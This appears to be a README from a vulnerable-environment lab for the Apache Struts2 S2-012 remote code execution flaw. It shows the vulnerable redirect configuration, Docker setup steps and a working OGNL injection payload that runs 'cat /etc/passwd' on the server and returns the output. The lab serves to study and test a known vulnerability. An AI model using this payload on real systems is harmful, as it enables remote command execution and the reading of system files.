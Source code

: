 # S2-012 Remote Code Execution Vulnerablity

[中文版本(Chinese version)](README.zh-cn.md)

Affected Version: 2.1.0 - 2.3.13

Details: http://struts.apache.org/docs/s2-012.html

## Reference

If the redirect type is used when configuring `result` in the `action`, and ${param_name} is also used as the redirect variable, for example:

```xml
<package name="S2-012" extends="struts-default">
    <action name="user" class="com.demo.action.UserAction">
        <result name="redirect" type="redirect">/index.jsp?name=${name}</result>
        <result name="input">/index.jsp</result>
        <result name="success">/index.jsp</result>
    </action>
</package>
```

During the redirection process, struts2 performs an OGNL expression parsing on the value of the `name` parameter, so that OGNL expression can be inserted to cause the command execution.

## Setup

```
docker compose build
docker compose up -d
```

## Exploit

We can use s2-001's POC directly:

```
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"cat", "/etc/passwd"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
```

Result：

![](1.png)
